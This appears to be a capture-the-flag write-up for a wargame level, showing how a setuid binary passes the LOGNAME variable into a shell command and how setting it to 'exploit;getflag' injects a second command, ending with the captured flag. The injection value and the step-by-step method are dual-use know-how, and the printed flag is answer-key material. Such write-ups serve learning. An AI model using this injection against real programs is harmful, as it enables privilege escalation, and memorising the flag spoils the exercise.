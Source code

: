 # level07

1. examinate existing files permissions

```shell
ls -la
```

shows that the level07 executable belongs to flag07 group

2. get the executable (from an external device)

```shell
scp -P 4242 level07@<host>:level07 .
```

3. decompile the executable and examine the resulting code

```shell
~/dev/tools/retdec/bin/retdec-decompiler.py level07
```

shows `asprintf(&buffer, "/bin/echo %s ", getenv("LOGNAME"));` which permits arbitrary code execution

4. tweak the environment variables

```shell
LOGNAME='exploit;getflag'
```

5. pwn the flag

```shell
./level07
```

gives flag: `fiumuikeil55xe9cu4dood66h`
